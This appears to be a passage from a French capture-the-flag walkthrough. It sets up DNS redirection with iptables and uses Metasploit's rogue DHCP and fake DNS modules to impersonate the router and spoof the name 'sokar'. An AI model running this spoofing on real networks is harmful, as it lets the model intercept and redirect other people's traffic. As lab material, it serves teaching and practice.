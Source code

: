 Ensuite le traffic DNS qui passe par notre machine nous sera redirigé :  

```plain
iptables -t nat -A PREROUTING -p udp --dport 53 -j REDIRECT --to-port 53
```

Tant qu'à faire, si on envoie des réponses autant qu'elles semblent provenir du serveur de destination initiale :  

```plain
iptables -t nat -A POSTROUTING -j MASQUERADE
```

Vous devriez obtenir un état comme celui-ci :  

```plain
# iptables -L -t nat
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         
REDIRECT   udp  --  anywhere             anywhere             udp dpt:domain redir ports 53

Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         
MASQUERADE  all  --  anywhere             anywhere
```

Maintenant on va utiliser *Metasploit* pour lancer un serveur DHCP paramêtré à notre avantage (car nous déclarant comme le routeur).  

```plain
msf > use auxiliary/server/dhcp
msf auxiliary(dhcp) > set DHCPIPSTART 192.168.1.62
DHCPIPSTART => 192.168.1.62
msf auxiliary(dhcp) > set DHCPIPEND 192.168.1.100
DHCPIPEND => 192.168.1.100
msf auxiliary(dhcp) > set NETMASK 255.255.255.0
NETMASK => 255.255.255.0
msf auxiliary(dhcp) > set ROUTER 192.168.1.3
ROUTER => 192.168.1.3
msf auxiliary(dhcp) > set SRVHOST 192.168.1.3
SRVHOST => 192.168.1.3
msf auxiliary(dhcp) > exploit
[*] Auxiliary module execution completed
msf auxiliary(dhcp) > 
[*] Starting DHCP server...
```

On laisse le serveur DHCP en tache de fond et on lance un faux serveur DNS qui répondra par notre adresse pour le nom *sokar* :  

```plain
msf auxiliary(dhcp) > back
msf > use auxiliary/server/fakedns
msf auxiliary(fakedns) > set TARGETHOST 192.168.1.3
TARGETHOST => 192.168.1.3
msf auxiliary(fakedns) > set TARGETDOMAIN sokar
TARGETDOMAIN => sokar
msf auxiliary(fakedns) > set TARGETACTION FAKE
TARGETACTION => FAKE
msf auxiliary(fakedns) > exploit
[*] Auxiliary module execution completed
msf auxiliary(fakedns) > 
[*] DNS server initializing
```